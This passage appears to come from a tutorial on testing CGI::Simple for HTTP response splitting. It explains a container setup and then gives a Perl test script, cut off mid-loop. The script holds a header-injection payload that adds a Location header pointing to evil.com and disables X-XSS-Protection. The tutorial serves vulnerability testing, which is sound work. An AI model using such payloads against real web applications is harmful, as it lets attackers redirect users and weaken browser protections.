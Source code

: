 <br>


The line `image: perl:5.36-slim` installs the slimmed version of `Perl v5.36`.

The line `working_dir: /app`, sets the current directory inside the container to `/app`.

The line `volumes: - ./:/app`, mounts the current host directory into the container's `/app` directory.

The `command:` does the core task, installs the relevant version of `CGI::Simple` in each services.

<br>

## Step 2: Test Script
***

<br>

Here is a simple test for the vulnerability.

**File:** `test-exploit.pl`

<br>

```perl
#!/usr/bin/env perl

use v5.36;
use CGI::Simple;

say "CGI::Simple Security Vulnerability Test";
say "=" x 50;
say "Version: $CGI::Simple::VERSION";
say "Test Date: " . localtime;
say "=" x 50 . "\n";

local $ENV{QUERY_STRING} = "redirect=normal%0ALocation:https://evil.com%0AX-XSS-Protection:0";
local $ENV{REQUEST_METHOD} = "GET";

my $vulnerable = 0;
my @test_results;

# Test 1: HTTP Response Splitting Attack Simulation
say "TEST 1: HTTP RESPONSE SPLITTING SIMULATION";
say "=" x 50;

my $cgi_malicious = CGI::Simple->new;
my $malicious_redirect = $cgi_malicious->param('redirect') || '';
my $visible_redirect = $malicious_redirect;
$visible_redirect =~ s/\n/\\n/g;  # Make newlines visible
$visible_redirect =~ s/\r/\\r/g;  # Make carriage returns visible
say "Payload: redirect=normal%0ALocation:https://evil.com%0AX-XSS-Protection:0";
say "Decoded (escaped): " . $visible_redirect;
say "Contains newlines: " . ($malicious_redirect =~ /\n/ ? "YES" : "NO");
say "Contains carriage returns: " . ($malicious_redirect =~ /\r/ ? "YES" : "NO") . "\n";

eval {
    my $headers = $cgi_malicious->header(
        -Location => "/login?redirect=$malicious_redirect",
        -Type     => 'text/html'
    );

    # Analyze the generated headers
    my @header_lines = split(/\r?\n/, $headers);
    my $injected_headers = 0;

    for my $line (@header_lines) {
```